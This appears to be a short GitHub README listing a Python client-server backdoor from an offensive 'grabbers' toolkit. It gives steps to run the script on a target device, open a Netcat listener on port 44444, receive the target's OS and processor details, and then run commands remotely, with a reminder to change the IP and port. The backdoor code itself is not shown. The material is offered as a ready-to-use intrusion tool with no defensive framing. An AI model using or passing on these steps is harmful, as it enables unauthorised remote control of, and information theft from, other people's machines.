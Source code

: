 # 🕵️‍♂️ Different Types of Grabbers:

- [my_backdoor.py](https://github.com/MoElaSec/Net_Tools/blob/main/Grabbers/my_backdoor.py) 🐍  client-Server Backdoor (Grabbes target OS info).

1. run script `python my_backdoor.py` on the target device.
2. on your machine run a listner (use Netcat or [My 🐍 client](https://github.com/MoElaSec/Net_Tools/blob/main/Client-Server/my_client.py))
 > $ nc  127.0.0.1 44444
3. you will recive Target (OS+Processor) then start executing commands.
 > $ cd .. && cd .. && dir 

##### make sure to modify the `IP + Port` givin in the code and above example.
